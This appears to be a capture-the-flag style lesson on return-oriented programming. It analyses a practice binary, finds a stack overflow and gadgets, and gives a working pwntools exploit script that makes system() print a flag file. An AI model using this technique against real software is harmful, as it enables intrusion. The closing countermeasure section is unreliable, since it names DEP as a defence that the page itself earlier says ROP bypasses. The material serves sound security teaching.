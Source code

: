 ```yaml
---
title: "Introduction to ROP Attack"
teaching: 10
exercises: 30
questions:
- "What is ROP Attack?"
- "How to build the payload?"
- "What can users do to prevent ROP from happening"
objectives:
- "Successfully conduct a ROP Attack."
keypoints:
- "User needs to know the vulnerability of the ELF file provided and know how to build the payload"
---
```


## ROP Attack

- ROP stands for "Return-Oriented Programming" and is a type of attack that allows an attacker to take control of a program's execution flow by manipulating its stack.

- ROP attacks work by finding "gadgets" in the program's code, which are short sequences of instructions that end with a "return" instruction. By chaining these gadgets together, the attacker can construct a new program flow that achieves their desired outcome.

- ROP attacks are often used to bypass security measures like DEP (Data Execution Prevention) and ASLR (Address Space Layout Randomization), which are designed to prevent traditional buffer overflow attacks.

- ROP attacks can be difficult to defend against, as they don't rely on injecting code into the program's memory like traditional attacks do. Instead, they rely on using the program's own code against itself.


### Demonstration

The demonstration on CHEESEHub illustrates the ROP attack using one machines; 
1. We will  analyze the ELF File provided to know what's the vunerabilities of the program 
2. We will build the payload based on that. We verify the success of the attack by printing the flag.txt.

> ## prerequisites
> 
> You will need to conduct the Buffer Overflow attack prior to the ROP attack. If you're not familiar with it, you could refer to [Lesson: Introduction to Buffer Overflow Attack](https://github.com/cheese-hub/BufferOverflowAttack)
> You will need to know the knowledge of [Assembly Language](https://github.com/cheese-hub/ROP-Attack/blob/main/assembly%20language.md), [pwntools](https://github.com/cheese-hub/ROP-Attack/blob/main/pwntools.md), and [Radare2](https://github.com/cheese-hub/ROP-Attack/blob/main/r2.md) prior to the ROP Attack.
{: .prereq} 

> ## Getting Started
> 
> You will need to create an account on [CHEESEHub](https://www.hub.cheesehub.org) to work through this exercise.
> Each container in this demonstration has a web interface and is accessible through your web browser, no other special software 
> is needed.

We will start by first adding the ROP-Attack application:

figure to be shown

Next, click the *View* link to go to the application-specific page and start the application containers:

figure to be shown
> ## Container Launch Errors
>
> If a container fails to start, you will see a flashing warning icon next to the container's name. Take a look at the logs to 
> determine the cause of failure and try deleting the application and restarting.


Once all the containers have started, launch each container's web interface in a separate browser tab by clicking the icon 
next to the container's name.
## Let's get start it by building the image and running the docker container
Enter the directory and 
~~~
$docker run -it split bash
~~~


## Analyze the ELF File
~~~
r2 -AAAA split
~~~
Here is the figure of r2 -AAAA split
![image](https://user-images.githubusercontent.com/77866826/236359081-8598cb0f-7cbf-4f48-88f9-13d4d418f775.png)



![1687247067908](https://github.com/cheese-hub/ROP-Attack/assets/77866826/f586264d-8424-4e85-a233-11704cd9b784)
Check the program's protections and find that NX is enabled.

## Find the vulnerabilities
using afl to list all the functions involved
![image](https://user-images.githubusercontent.com/77866826/236639496-5dfd204f-2e61-4b17-9268-729301bd083b.png)

After analyzing with r2, the main, pwnme, and usefulFunction functions were discovered.

![image](https://user-images.githubusercontent.com/77866826/236639532-2ac5cb20-5cac-4feb-b1d7-d53b9011bcf4.png)


3 figures of find functions
![image](https://user-images.githubusercontent.com/77866826/236639632-f297cf2f-d445-48f2-879e-0d8fd0bac1cb.png)

![image](https://user-images.githubusercontent.com/77866826/236639683-910e5cdc-e398-46dc-8965-84252d37e55d.png)

We can see in the pwnme function that there is a buffer with the size of 32 bytes but fgets allow to unput 96 bytes
So an overflow will happen and we can use as the start of the payload.
## Find the bytes needed to make an overflow
First we use gdb to analyse
![image](https://user-images.githubusercontent.com/77866826/236639994-7464498b-9e4d-41dd-934f-cd8d79f9c1c3.png)
And then we generate a random 100 bytes string as input
![image](https://user-images.githubusercontent.com/77866826/236640121-3db8cc3e-4a03-42bd-83a4-61fce5f4bb84.png)
![image](https://user-images.githubusercontent.com/77866826/236640208-bfcb716f-9e54-4283-a469-91a4f6a2d826.png)

And then we do pattern-search
![image](https://user-images.githubusercontent.com/77866826/236640243-48ba12fe-dcb0-493b-a5a2-1320aad20cc9.png)

We can tell in order to overflowrsp we need 40 bytes

## Back to usefulFunction to keep using r2.
![image](https://user-images.githubusercontent.com/77866826/236640293-c1c893e6-93a1-431f-9128-7613b5be80e1.png)

We can see that the usefulFunction is gonna to call system function with string '/bin/ls' as its parameter
After we run the program, we can see that '/bin/ls' is used.
But our goal is to use  '/bin/cat flag.txt' as its parameter so that we can print the flag. So keep searching the gadgets we want.



## Let's get back to r2 and use izz to list the string inside the ELF File.
![image](https://user-images.githubusercontent.com/77866826/236640330-8114d260-e81e-4237-a786-336c098c549d.png)
![image](https://user-images.githubusercontent.com/77866826/236640342-c90de3aa-5feb-4997-84b2-bde8b9276137.png)

We can see that there is a string that can print the flag:/bin/cat flag.txt

And the address of this string is 0x0001060.

## The idea came out!
Now we try to make an overflow and return to the address of system function after that and try to exec the system function with the parameter /bin/cat flag.txt. 
In order to do that,we need to pass the address of the string to RDI Register. 
We need ROPgadget to help us implement this because it can find related string in the file
!![image](https://user-images.githubusercontent.com/77866826/236640670-2d82c1f2-87ff-4c52-9c49-3f3b35b3a4cf.png)
![image](https://user-images.githubusercontent.com/77866826/236640501-3212fd1c-7e32-418c-b21d-15bb39fac710.png)
We can use" pop rdi : ret "to do make it as a gadget.
## Build and Analyze the code
~~~
from pwn import *

#create a process object and load the executable binary
p = process('./split')



#determine the offset to the return address on the stack
offset = 40

#retrieve the addresses of the desired functions/strings using the ELF object
ret_address = 0x00000000004007c3


#construct the payload by padding the offset with arbitrary characters
#then appending the address of the return instruction and the address of the system call with the argument of the flag file
payload = b'A' * offset + p64(ret_address) + p64(0x00601060) + p64(0x0040074b)

#send the payload to the process and get the result
p.sendline(payload)
p.interactive()
~~~

## Catch the Flag!!
![image](https://user-images.githubusercontent.com/77866826/236640607-854dac44-b55d-4f5d-afd6-9bc87cc344b4.png)

## Contermeasure?

> ## ROP Split Attack
> 
> We can use DEP as the countermeasure. Data Execution Prevention (DEP): DEP is a security feature that prevents the execution of code from memory pages that are marked as data. This can help prevent attackers from executing malicious code in the first place.


